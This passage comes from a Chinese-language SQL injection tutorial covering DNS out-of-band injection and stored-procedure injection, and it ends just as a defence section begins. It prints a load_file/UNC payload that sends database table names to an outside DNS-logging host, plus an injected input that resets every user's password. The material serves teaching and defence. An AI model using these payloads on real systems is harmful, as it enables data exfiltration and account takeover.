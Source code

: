 在这个例子中，攻击者先检查MySQL的版本是否为5，如果判断为真，则让服务器延时十秒返回结果。

### DNS带外注入

在盲注的情况下，假设应用程序是异步执行的，也就是说，应用程序需要在原始线程处理用户的请求，并同时在另一个线程使用跟踪cookie执行SQL查询，这样我们刚才提到的注入方法都会失效。这时如果我们想要成功进行注入，可以尝试使用DNS带外注入。

在了解DNS带外注入前，我们需要一点点前置知识，就是泛域名解析。那么什么是泛域名解析呢，其实很简单，就是\*.的所有域名解析到同一IP，举个例子，talentsec.cn指向了一个IP，在使用了泛域名解析技术的情况下，test.talentsec.cn也会指向同一个IP地址。

DNS带外注入，是使用不同通道检索数据的技术（例如，建立 HTTP 连接将结果发送到 Web 服务器等）。这个方法使用DBMS的功能，执行带外连接，并将注入查询的结果作为请求的一部分传递给攻击者。和报错注入类似，每个数据库管理系统有自己独有的功能函数，我们需要确认数据库管理系统的信息。下面就是一个DNS带外注入的示例：

```sql
SELECT * FROM products WHERE id_product=$id_product

#http://www.example.com/product.php?id_product=10 and load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='security' limit 0,1),".afl3zg.dnslog.cn\\aa.txt")) --+

```

该 `payload` 使用了 `loadfile` 函数，该函数在这里可以通过 `UNC` 路径读取远程机器上的文件。它的参数是用 `concat` 函数拼接起来的 `UNC` 路径，由于 `\` 代表了转义的意思，所以实际拼接为 `\\{query_result}.af13zg.dnslog.cn\aa.txt`，其中 `{query_result}` 为查询的结果，根据 **泛域名解析原理**，该请求会被 `afl3zg.dnslog.cn` 记录下来。 `afl3zg.dnslog.cn` 是在 [DNSLog Platform](http://www.dnslog.cn) 上面生成的一个域名，我们可以借助它来观察到外带的结果。域名生成之后，点击刷新记录，就可以显示出它接收到的访问信息，其中就包括了我们的查询结果。

### 存储过程注入

在存储过程中，如果应用系统使用和用户交互式的SQL输入，程序就必须考虑注入风险。开发人员需要严格判断用户输入的合法性，以消除代码注入的风险。如果风险不清理，存储过程就可能会被用户输入的恶意代码污染。

下面这段代码，是存储过程注入示例：

```sql
Create
procedure get_report @columnamelist varchar(7900)
As
Declare @sqlstring varchar(8000)
Set @sqlstring  = 'Select * ' + @columnamelist + ' from ReportTable'
exec(@sqlstring)
Go

```

如果用户输入：

```sql
from users; update users set password = ‘password’; select *

```

上述代码会把用户的输入赋值给 `@sqlstring`，在之后的存储过程中执行，导致所有用户的密码更改为 `password`。

## 如何防御

虽然SQL注入攻击方式多变，但是在防御角度确有一种“以不变应万变”的防御方案。
